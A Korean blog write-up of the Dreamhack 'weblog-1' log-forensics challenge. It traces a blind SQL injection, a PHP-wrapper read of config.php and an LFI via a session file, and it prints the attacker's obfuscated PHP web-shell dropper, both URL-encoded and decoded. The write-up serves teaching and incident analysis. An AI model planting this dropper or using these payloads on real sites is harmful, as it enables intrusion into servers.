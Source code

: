 ```yaml
---
layout: single
title: "[Dreamhack] weblog-1 write-up"
date: 2024-12-24 18:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] weblog -1

<br>

### 문제 설명

- 주어진 코드와 로그를 분석해 주어진 질문에 해당하는 답을 찾아보세요.

<br>

### 풀이

<br>

문제 페이지에 접속하면 Level 0 으로 탈취된 admin 계정의 PW를 입력하라고 한다.

![{03D86826-791A-401D-8E5F-2E87F87452EF}](/images/2024-12-24-weblog-1/{03D86826-791A-401D-8E5F-2E87F87452EF}.png)

<br>

엑셀로 옮겨 access.log를 확인해보면 일단 아랫 부분은 sql injection이 되는지 테스트하고 있는 것으로 보인다.

![**{7BB4E0F7-DC54-450E-B115-B51DC249C9DB}**](/images/2024-12-24-weblog-1/{7BB4E0F7-DC54-450E-B115-B51DC249C9DB}.png)

<br>

아래에서는 database()의 첫 번째 글자를 blind sqli 하는 것으로 보인다. 먼저 위에서 1=1에서 참이 500에러가 났기 때문에 500에러를 일단 참으로 가정하고 보자.

![{83DA9108-132A-4A26-B7DD-665B37ACF21B}](/images/2024-12-24-weblog-1/{83DA9108-132A-4A26-B7DD-665B37ACF21B}.png)

<br>

보기 쉽게 500을 찾고 서식을 빨간색으로 바꿔주면 아래와 같이 조금 쉽게 찾을 수 있다.

![{3CD57B65-FF7C-4CC8-9FF8-3D242FAB4FA3}](/images/2024-12-24-weblog-1/{3CD57B65-FF7C-4CC8-9FF8-3D242FAB4FA3}.png)

<br>

아스키 값을 찾아 파이썬 코드로 chr 함수를 이용해 데이터베이스 이름을 보면 simple_board 라는 것을 알 수 있었다.

![{94F31C9D-71FA-48F2-A523-ACA81B5F6A3C}](/images/2024-12-24-weblog-1/{94F31C9D-71FA-48F2-A523-ACA81B5F6A3C}.png)

<br>

따라서 admin 계정의 pw 만 확인하면 되기 때문에 계정을 blind sqli 하는 부분에 대해서 값을 모아서 보면 Th1s_1s_Adm1n_P@SS 라는 값이 나오고 다음 단계로 넘어갈 수 있다. 

<br>

다음 문제는 config.php 코드를 추출하는데 사용한 페이로드를 입력하라고 되어 있다.

![{55F02F4E-B568-462E-B001-86740B16BC22}](/images/2024-12-24-weblog-1/{55F02F4E-B568-462E-B001-86740B16BC22}.png)

<br>
이것도 config.php 단어로 먼저 추린 후에 아래로 내리다 보니 PHP Wrapper를 사용해서 config.php 코드를 추출하는 페이로드를 확인할 수 있었다.

![{0EE1D74E-6750-4A9D-8EC0-58B4C4A2733A}](/images/2024-12-24-weblog-1/{0EE1D74E-6750-4A9D-8EC0-58B4C4A2733A}.png)

<br>

다음은 LFI 취약점을 통해 코드 실행 공격에 사용된 파일의 전체 경로를 입력하라고 되어 있다.

![{8258633E-4A7A-440E-8F1E-C3F3401362BE}](/images/2024-12-24-weblog-1/{8258633E-4A7A-440E-8F1E-C3F3401362BE}.png)

<br>

아래 로그를 보면 memo.php에 웹쉘을 올리고 `/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732` 경로에 접속하는 것을 보아 LFI에 사용된 파일의 전체 경로는 `/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732`  인 것을 알 수 있다.

```text
GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1


172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

<br>

생성된 웹쉘의 경로를 입력하라고 되어있다.

![{F50DB34C-69D6-42C8-B214-2A00D4D7E047}](/images/2024-12-24-weblog-1/{F50DB34C-69D6-42C8-B214-2A00D4D7E047}.png)

<br>

아래의 웹쉘 코드를 url 디코딩하여 보면 아래와 같이 php 코드가 나온다.

```text
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

```php
<?php
function m($l, $T = 0) {
    $K = date('Y-m-d');
    $_ = strlen($l);
    $__ = strlen($K);
    for ($i = 0; $i < $_; $i++) {
        for ($j = 0; $j < $__; $j++) {
            if ($T) {
                $l[$i] = $K[$j] ^ $l[$i];
            } else {
                $l[$i] = $l[$i] ^ $K[$j];
            }
        }
    }
    return $l;
}
m('bmha[tqp[gkjpajpw')(m('+rev+sss+lpih+qthke`w+miecaw*tlt'), m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?'));
?>

```

<br>

위 코드를 바로 실행하면 에러가 나고 파일이 실행됐던 date 값을 아래와 같이 수정해서 php 코드를 실행하면 `/var/www/html/uploads/images.php` 경로에 웹쉘이 생성된 것을 알 수 있다.

![{E0D4F3C7-2734-410F-BEC6-C79D1C8556FA}](/images/2024-12-24-weblog-1/{E0D4F3C7-2734-410F-BEC6-C79D1C8556FA}.png)

<br>

마지막 지문에서는 사용된 명령어를 입력하라고 되어있는데 이건 거져주는 문제로 images.php?c=whoami로 바로 아래에 로그가 찍혀있다. 입력해주면 아래와 같이 flag를 획득한 것을 볼 수 있다.

![{75D9EB1F-141C-4951-A0C9-53C704868D12}](/images/2024-12-24-weblog-1/{75D9EB1F-141C-4951-A0C9-53C704868D12}.png)